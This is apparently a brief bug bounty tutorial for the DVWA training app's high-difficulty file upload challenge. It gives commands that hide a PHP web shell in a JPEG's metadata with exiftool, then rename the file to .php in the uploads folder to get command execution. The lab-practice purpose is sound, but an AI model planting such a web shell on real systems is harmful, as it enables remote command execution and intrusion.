 # bug-bounty-tutorial
bug bounty tutorial

## 3.dvwa file upload high
```
sudo apt update
sudo apt install libimage-exiftool-perl

exiftool -DocumentName='<?php system($_GET["cmd"]); ?>' index.jpeg

mv /usr/share/dvwa/hackable/uploads/index.jpeg /usr/share/dvwa/hackable/uploads/index.php
```
